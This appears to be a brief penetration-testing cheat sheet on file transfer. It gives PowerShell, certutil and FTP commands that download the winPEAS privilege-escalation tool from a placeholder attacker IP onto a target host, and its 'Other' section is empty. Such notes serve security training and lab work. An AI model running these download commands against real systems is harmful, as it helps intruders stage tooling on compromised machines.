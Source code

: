 # File transfer 

## Windows

### Powershell
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile(\"http://<attacker_ip>:8888/winPEASany.exe\", \"winpeas.exe\")" 
```

### Cert
```powershell
certutil -urlcache -split -f "http://<attacker_ip>:8888/winPEASany.exe" winpeas.exe
```

## Linux

### Python FTP
```python
python -m pyftpdlib -p 21  
ftp -A <attacker_ip>   
binary    
get winPEAS.exe   
bye 
```

## Other 
